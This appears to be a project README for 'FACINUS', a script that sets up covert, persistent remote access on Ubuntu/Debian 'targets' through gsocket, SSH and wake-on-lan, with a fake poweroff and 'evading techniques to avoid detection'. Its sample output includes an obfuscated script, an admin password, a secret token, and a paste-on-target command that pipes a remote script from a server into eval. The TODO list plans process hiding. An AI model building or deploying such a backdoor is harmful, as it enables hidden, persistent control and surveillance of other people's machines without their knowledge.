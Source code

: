## FACINUS - set a 24/7 access on a Ubuntu PC you have access to with [gsocket](https://www.gsocket.io/) and other features

This script is setting up an Apache server on your Arch based linux distro and targets Ubuntu/Debian.

## Features
- **SSH**: Set up SSH server on target to quickly access from internal network.
- **WOL**: Check for wake-on-lan availability, to be able to wake any other pc's on network which ran the script.
- **24/7**: Fake a poweroff to keep the PC running 24/7.
- **Log**: Logs everything on your server.
- **gsocket**: Set up a gsocket service on target to access the server from anywhere.
- **Stealth**: Simple evading techniques to avoid detection.

## Installation
For now this script doesn't have checks for other distros than Arch based with pacman package manager. I'll add more checks later.
You just have to run the install script that will setup everything automatically for you.
```
./install
```

## Web Interface
After running the script you'll see something like this:
```
./install
[sudo] password for elleoma: 
Obfuscated script created.
==============================================================
Deployment server setup complete!
==============================================================
Server URL: http://192.168.0.131/deployment
Admin Page: http://192.168.0.131/deployment/admin.php
Admin Password: 2cn2lguMIdx9
Client Setup Command: eval "$(curl -fsSL http://192.168.0.104/deployment/y)"
==============================================================
Secret Token for accessing logs: NTVEYJWTYAk5OolAAKYodaSjPWKaKb4X
==============================================================
```
After accessing url you'll see a simple commands to copy and paste on the target.
On the admin panel you can check the logs and the secrets for gsocket access.

<img src="https://github.com/elleoma/facinus/blob/master/screenshots/admin.png"/>

## TODO
- [ ] Add checks for other distros
- [ ] Fix fake poweroff
- [ ] Obfuscation, process hiding, etc.
- [ ] Ability to install common precompiled binaries on a target without root access.
- [ ] Add options to the script (no root, no services, etc.)
